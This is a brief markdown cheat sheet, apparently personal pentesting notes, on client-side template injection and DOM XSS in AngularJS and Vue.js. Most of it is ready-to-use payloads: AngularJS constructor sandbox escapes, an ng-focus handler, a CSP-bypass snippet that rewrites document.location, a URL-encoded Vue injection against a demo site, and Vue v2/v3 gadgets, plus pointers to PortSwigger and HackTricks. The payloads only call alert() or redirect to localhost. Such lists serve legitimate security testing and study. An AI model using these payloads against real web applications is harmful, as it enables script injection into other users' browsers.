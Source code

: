__Check more VUE payloads in [portsigger](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#vuejs-reflected)__
![image1](Image/xss.png)

## DOM XSS in AngularJS expression

- __When HTML contains ng-app attribute__
  - __you can execute arbitrary JavaScript code__
  - __To get the payloads go to book.hacktricks.xyz__
  - __use any payload in the search bar__
```javascript
{{$on.constructor('alert(1)')()}}
{{constructor.constructor('alert(1)')()}}
<input ng-focus=$event.view.alert('XSS')>

<!-- Google Research - AngularJS -->
<div ng-app ng-csp><textarea autofocus ng-focus="d=$event.view.document;d.location.hash.match('x1') ? '' : d.location='//localhost/mH/'"></textarea></div>
```

## vueJS
- Working payload: `https://vue-client-side-template-injection-example.azu.now.sh/?name=%7B%7Bthis.constructor.constructor(%27alert(%22foo%22)%27)()%7D%`
- A really good post on CSTI in VUE can be found in [portswigger.net](https://portswigger.net/research/evading-defences-using-vuejs-script-gadgets)
  ### v3
    - `{{_openBlock.constructor('alert(1)')()}}`
  
  ### v2
    - `{{_openBlock.constructor('alert(1)')()}}`
